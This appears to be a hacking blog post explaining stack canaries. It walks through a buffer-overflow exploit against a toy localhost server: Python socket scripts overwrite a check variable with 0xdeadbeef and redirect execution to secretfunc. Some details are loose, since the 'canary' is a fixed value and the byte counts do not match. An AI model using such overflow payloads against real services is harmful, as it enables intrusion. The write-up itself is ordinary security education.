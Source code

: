 ```yaml
---
layout: post
title: "Stack Canaries"
date: "2019-08-20 20:12:10"
comments: false
draft: false
categories:
- hacking
tags:
- exploit
- hacking
---
```


A popular buffer overflow prevention technique employed by some programs.

> Used to detect a stack buffer overflow before execution of malicious code can occur, by placing a small integer, the value of which is randomly chosen at program start, in memory just before the stack return pointer. Most buffer overflows overwrite memory from lower to higher memory addresses, so in order to overwrite the return pointer, the canary value must also be overwritten. This value is checked to make sure it has not changed before a routine uses the return pointer on the stack. This technique can greatly increase the difficulty of exploiting a stack buffer overflow because it forces the attacker to gain control of the instruction pointer by corrupting other important variables on the stack.

In a nutshell involves validating the value of variables on the stack. Here is a concrete example of a stack canary:

    void overflowme(char *str) {
        unsigned int val;
        char buf[4] = {0};
    
        memorycopy(buf, str, 16);
        printf("  [+] val=%x\n", val);
        if (val == 0xdeadbeef) {
            strcopy(buf, str);
        }
    }

If the `0xdeadbeef` check fails, the overflow can't be triggered. Running the server:

    # ./bin/server
    [+] Server is starting...
    [+] Server is now listening on 8888
    [+] secretfunc is @ 0x8048d83
    [+] Awaiting clients...

To trigger `secretfunc` using by overflowing the stack, need to also now also get pass the `0xdeadbeef` check.

Using our trusty python client, let overflow the 4 byte buffer, by filling it with 8 bytes:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8888))
buf="ABCDEFGH"
s.send(buf)
```

The output of the vulnerable server program:

      [+] (Client 4) Connected
    Printing:You are client 4
      [+] (Client 4) Sent us 8 bytes
      [+] (Client 4) Sent us 'ABCDEFGH'
      [+] val=48474645

Can see the buffer has bled into the unsigned int `val`.

    unsigned int val;
    char buf[4] = {0};
    printf("  [+] val=%x\n", val);
    if (val == 0xdeadbeef) {

With the 8 byte overflow were able to set `val` to the value of `0x48474645`.

    Char  Dec  Oct  Hex
    A      65 0101 0x41
    B      66 0102 0x42
    C      67 0103 0x43
    D      68 0104 0x44
    E      69 0105 0x45
    F      70 0106 0x46
    G      71 0107 0x47
    H      72 0110 0x48
    I      73 0111 0x49

This looks to be the `EFGH` characters in the 8 byte overflow python client. That means immediately after the first 4 bytes, the unsigned integer is loaded up with the very next 4 bytes (given it can hold 32 bits!). Given this we just need to pack the `0xdeadbeef` bits in straight after the first 4 bytes of the buffer, or just after `ABCD`. After that can proceed to flood the buffer with the address location of `secretfunc` in the hope of overflowing that address into the instruction pointer (`EIP`).

Python's `struct.pack` is brilliant here, as it will pack the bits within the bytes in the specified order, in this case [little endian](https://en.wikipedia.org/wiki/Endianness#Little-endian) ordering indicated with the `<I` style notation.

```python
import socket
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8888))
buf="ABCD"
buf += struct.pack('<I', 0xdeadbeef)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
buf += struct.pack('<I', 0x8048d83)
s.send(buf)
```

Running this the updated python client, can see the canary is now satisfied, and control flow of the program is taken over as it proceeds to run `secretfunc` (outputs `You win!!!`).

    [+] Awaiting clients...
    [+] (Client 4) Connected
    Printing:You are client 4
      [+] (Client 4) Sent us 52 bytes
      [+] (Client 4) Sent us 'ABCDﾭރ����������'
      [+] val=deadbeef
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	You win!!!!!!!!!!!!!!!!!!
    	Segmentation fault

